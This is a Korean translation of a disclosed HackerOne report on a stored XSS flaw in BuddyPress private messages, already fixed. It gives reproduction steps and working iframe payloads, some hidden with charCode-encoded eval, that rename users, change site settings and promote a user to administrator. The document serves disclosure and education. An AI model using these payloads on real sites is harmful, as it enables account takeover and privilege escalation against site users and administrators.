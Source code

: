 ```yaml
---
layout: post
title: Stored XSS in Private Message component (BuddyPress)
categories: PoC
tags: [Bugbounty, XSS, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : Kieran Munday (klmunday)] https://hackerone.com/reports/487081

_[ 본 이슈는 해결 된 상태이며, 취약점은 2019년 3월 9일 오전 7시 28분에 공개되었습니다. 워드프레스에 리포팅 되었으며, 해당 소스코드는 버디프레스(BuddyPress Core)의 것입니다. 취약점의 종류와 강도는 Stored XSS 이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 9~10/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
워드프레스 버전: 5.0.3 / 버디프레스 버전: 4.1.0

계정을 가진 버디프레스의 유저는 다른 용도를 위해 렌더링된 HTML 코드가 삽입된 비밀 메시지를 보낼 수 있는데, 이것은 script, iframe 등의 자바스크립트 코드를 실행시킬 수 있는 것들을 포함합니다. 이 XSS 코드는 DB에 저장되며 유저가 이 메시지를 읽는 어느 때라도 실행될 수 있습니다. 이 것은(역자 : 취약점이 발생되는 곳은) 유저가 마지막으로 받거나 보낸 메시지를 보여주는 the message preview window도 포함됩니다.

“희생자”가 권한을 부여한 어떠한 (웹앱의) 동작이라도 실행되고 있는 코드는 악용될 수 있으며, 특히 관리자와 같이 권한을 가진 사용자에게는 더 위험합니다. 왜냐하면 권한은 워드프레스 설정과 사용자 이메일과 같은 개인 정보를 열람할 수 있게하기 때문입니다. 이것은 플러그인 등과 같은 어떠한 동작도 포함됩니다.

이 취약점이 발생이 되는 선행 조건은 (기본 권한을 가진) 공격자의 계정과 비밀 메세지 기능이 설정되어있는 버디프레스 설정 외엔 없습니다.
- - -
# 공격이 발생되는 과정
## 새로운 메세지를 작성할 때 :
1. 다른 사용자의 프로필 페이지로 이동합니다.
1. 비밀 메시지(Private Message)를 클릭합니다.
1. 아무 주제(subject)나 입력합니다.
1. 다음과 같은 메시지를 입력합니다 : `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
1. 메시지를 보냅니다.
1. 메시지를 열람합니다(XSS를 트리거 시킨다).
1. 희생자가 해당 메시지를 보길 기다립니다.

## 기존 스레드에 답할 때 :
1. 본인 계정의 인박스 페이지로 갑니다.
1. 받은 메시지를 열람합니다.
1. 다음과 같은 코드가 첨부된 채 메시지에 답장을 보냅니다 : `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
1. 메시지를 열람합니다(XSS를 트리거 시킨다).
1. 희생자가 해당 메시지를 보길 기다립니다.

페이로드에는 공백이 들어가도 무방하지만 scr에는 어떠한 공백이나 쌍따옴표라도 포함되선 안됩니다. 그렇기 때문에 문자열과 eval’d(역자 : eval()함수)가 포함 된 char 코드로의 변환이 필요합니다.

## 예시:
{% highlight html %}
<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,116,101,115,116,32,61,32,49,50,51,59,10,97,108,101,114,116,40,116,101,115,116,41,59])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

## 이것은 아래의 코드로 변환되어 실행됩니다:
{% highlight html %}
let test = 123;
alert(test);
{% endhighlight %}

더 많은 용량의 페이로드가 사용될수도 있습니다. 그러나 (첨부할)코드가 char 코드 배열의 형태여야 하기 때문에 (만약 공백이나 쌍따옴표가 포함되어 있다면) 자바스크립트 코드를 보낼 수 있는 메시지로 변환시켜주는 간단한 파이썬 코드를 작성했습니다. 그리고 다음과 같이 수행되는 몇개의 개념증명 페이로드도 포함되어 있습니다 :

* 사용자의 유저 네임을 “HACKED”로 바꿉니다(어떠한 사용자라도 영향받을 것입니다).
* 웹사이트 제목과 설명을 바꿉니다(권한을 가진 사용자가 해당 메시지를 읽어야 합니다).
* 사용자의 권한을 관리자의 권한으로 승격시킵니다(권한을 가진 사용자가 해당 메시지를 읽어야 합니다).

스크립트와 페이로드를 보기 위해 첨부된 zip파일을 다운로드 해주시길 바랍니다 :
(역자 : 원문에서 다운로드 해주세요) https://hackerone.com/reports/487081

## 아래의 페일드 예시를 확인해주시길 바랍니다:
(참고: 공백을 넣는 것은 인박스의 메시지에서 iframe 코드가 보이지 않게 방지하는 것이지 해당 작업에 필요한 것은 아니고 iframe 태그 만을 필요로 합니다.)

## "HACKED"로 사용자 이름을 바꿉니다:
{% highlight html %}
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,97,109,101,32,61,32,112,97,114,101,110,116,46,66,80,95,78,111,117,118,101,97,117,46,109,101,115,115,97,103,101,115,46,114,111,111,116,85,114,108,46,115,112,108,105,116,40,39,47,39,41,91,50,93,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,109,101,109,98,101,114,115,47,39,32,43,32,110,97,109,101,32,43,32,39,47,112,114,111,102,105,108,101,47,101,100,105,116,47,103,114,111,117,112,47,49,47,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,102,105,101,108,100,95,49,34,93,39,41,46,118,97,108,40,39,72,65,67,75,69,68,39,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59,10])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

## 웹사이트 제목과 설명을 바꿉니다(관리자가 해당 메시지를 열람해야 합니다):
{% highlight html %}
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,101,119,95,115,105,116,101,95,116,105,116,108,101,32,61,32,39,72,65,67,75,69,68,39,59,10,108,101,116,32,110,101,119,95,115,105,116,101,95,100,101,115,99,114,105,112,116,105,111,110,32,61,32,39,118,105,97,32,88,83,83,39,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,111,112,116,105,111,110,115,45,103,101,110,101,114,97,108,46,112,104,112,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,98,108,111,103,110,97,109,101,34,93,39,41,46,118,97,108,40,110,101,119,95,115,105,116,101,95,116,105,116,108,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,98,108,111,103,100,101,115,99,114,105,112,116,105,111,110,34,93,39,41,46,118,97,108,40,110,101,119,95,115,105,116,101,95,100,101,115,99,114,105,112,116,105,111,110,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,111,112,116,105,111,110,115,46,112,104,112,39,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

## id가 2인 유저를 관리자 권한으로 승격시킵니다(관리자가 해당 메시지를 열람해야 합니다):
{% highlight html %}
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,101,100,105,116,46,112,104,112,63,117,115,101,114,95,105,100,61,50,38,119,112,95,104,116,116,112,95,114,101,102,101,114,101,114,61,47,119,112,45,97,100,109,105,110,47,117,115,101,114,115,46,112,104,112,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,115,101,108,101,99,116,91,110,97,109,101,61,34,114,111,108,101,34,93,39,41,46,112,114,111,112,40,34,115,101,108,101,99,116,101,100,73,110,100,101,120,34,44,32,52,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59])) width=0 height=0 style=display:none;></iframe>
{% endhighlight %}

이미지가 포함되어있는 더 자세한 write-up을 원하신다면 https://docs.google.com/document/d/1RgMWJlYen9iR_JTxATYR4TJWAPKRgaSKuiiqZp7x8L0/edit?usp=sharing을 방문해 주세요.
- - -
# 영향
공격자는 그가 원하는 행위를 희생자가 하도록 페이로드를 조작할 수 있습니다. 특히 이것은 관리자에게 위험한데 그 이유로는, 만약 공격자가 희생자들을 타겟팅했다면 공격자는 사이트 정보나 컨텐츠를 수정할 수 있고, 사용자 개인정보 등과 같은 민감한 정보를 열람할 수 있기 때문입니다.

제가 공격을 수행했을 때 저는 프로필 이름과 사용자 비밀번호를 바꿀 수 있었으며, 사용자의 이메일 주소를 읽을 수 있었고 페이지와 웹사이트 데이터, 이메일 주소를 포함해 워드프레스 설정을 수정할 수 있었습니다.

타겟팅된 권한을 가진 사용자가 어떤 것을 하도록 악용할 수 없었고, 저는 아무것도 발견할 수 없었습니다. 공격자가 단 한번의 공격만으로 wp-admin과 다른 플러그인의 모든 기능에 접근하고 더 나아가 연결된 요청을 보내는 것은 타겟에 따라 다를 것으로 보입니다.

메시지를 읽으면 다른 모든 사용자에게 이메일을 전송하는 웜 바이러스 제작도 가능합니다.